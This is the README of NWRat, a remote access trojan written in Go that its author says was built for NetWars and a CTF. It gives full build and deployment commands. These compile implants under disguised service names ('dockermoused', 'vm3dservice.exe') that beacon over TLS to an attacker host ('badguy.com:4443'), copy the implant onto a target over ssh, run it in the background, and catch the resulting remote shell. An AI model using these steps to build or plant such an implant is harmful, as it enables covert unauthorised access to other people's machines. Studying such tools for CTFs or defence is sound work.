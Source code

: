 NWRat
=====
Barebones RAT which provides a shell over TLS.  Originally written several
years ago for SANS' NetWars, the source was lost and re-written for quite a
long CTF which was part of a job interview.

As an implant it's a single binary which tries to make a TLS connection to the
C2 server at a set interval.  If a connection is established, a shell is
spawned and its stdio hooked up the TLS connection.  Further connection
attempts are still made when a shell is running to enable multiple shells on
target (or for if you forget `-c` when you ping something).

As a C2 server it listens for a connection from the implant, does a TLS
handshake and proxies stdio to the connection.  The listening socket is closed
when a connection is accepted to enable catching multiple callbacks.

Features:
- Single binary for both implant and server
- Shell over TLS
- Constant beacons
- No fussing about with someone else's post-exploitation code
- Compile-time implant configuration
- Cross-platform (though, only if `/bin/sh` exists on the platform)
- Encrypted on the wire
- Easy to set up and use
- Documentation which assumes some familiarity with [Go](https://golang.org)

For legal use only.

Quickstart
----------
```sh
# Get the source
go get github.com/magisterquis/nwrat
# Build the C2 server for the local platform
go build github.com/magisterquis/nwrat
# Build an implant for a different platform, setting the callback address
GOOS=linux go build -o dockermoused -ldflags="-X main.callbackAddr=badguy.com:4443" github.com/magisterquis/nwrat
GOOS=windows go build -o vm3dservice.exe -ldflags="-X main.callbackAddr=badguy.com:4443" github.com/magisterquis/nwrat
# Put the implant on target it and run it
ssh target 'cat >/tmp/dockermoused && chmod 0700 /tmp/dockermoused && /tmp/dockermoused &' <./dockermoused
# Catch a callback
./nwrat -listen localhost:4443 -cert ./badguy.com.crt -key ./badguy.com.key
```

Implant
-------
The implant is configured using Go linker directives.  There are three options:

Option                | Default           | Description
----------------------|-------------------|------------
main.callbackInterval | `1m`              | Callback interval, in Go's parseable duration [syntax](https://golang.org/pkg/time/#ParseDuration)
main.callbackAddr     | `example.com:443` | Callback address and port
main.implantDebug     | _unset_           | Set to any string to have the implant print debugging messages

As an example, to have the implant call back to `kittens.com:4433` every three
seconds and print debugging output, it would be built something like

```sh
go build -ldflags="-X main.callbackInterval=3s -X main.callbackAddr=kittens.com:4433 -X main.implantDebug=sure" github.com/magisterquis/nwrat
```

Editing the `var` block at the top also works.

Running the binary with no arguments causes it to function as the implant (as
opposed to the C2 server).

C2 Server
---------
When used with `-listen` the binary catches a callback.  A listen address and TLS
certificate and key corresponding to the domain the implant expects need to be
supplied via command-line options, similar to

```sh
./nwrat -listen 0.0.0.0:4443 -cert ./badguy.com.crt -key ./badguy.com.key
```

It's not a bad idea to wrap `nwrat` in [rlwrap](https://github.com/hanslub42/rlwrap)
or something similar, as there'll be no TTY or readline library.

When one side or the other disconnects, a message similar to
```
2020/07/22 00:28:25 Sent 206 bytes to implant
```
will be logged.

Windows
-------
At the moment, the C2 side should work just fine, but the implant won't be able
to start `/bin/sh`.  Feel free to submit a pull request.
